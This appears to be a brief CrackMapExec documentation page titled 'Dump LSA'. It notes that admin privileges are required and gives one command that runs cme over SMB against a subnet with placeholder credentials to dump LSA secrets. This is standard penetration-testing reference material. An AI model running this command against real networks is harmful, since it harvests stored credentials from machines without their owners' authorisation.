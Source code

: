 # Dump LSA

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```
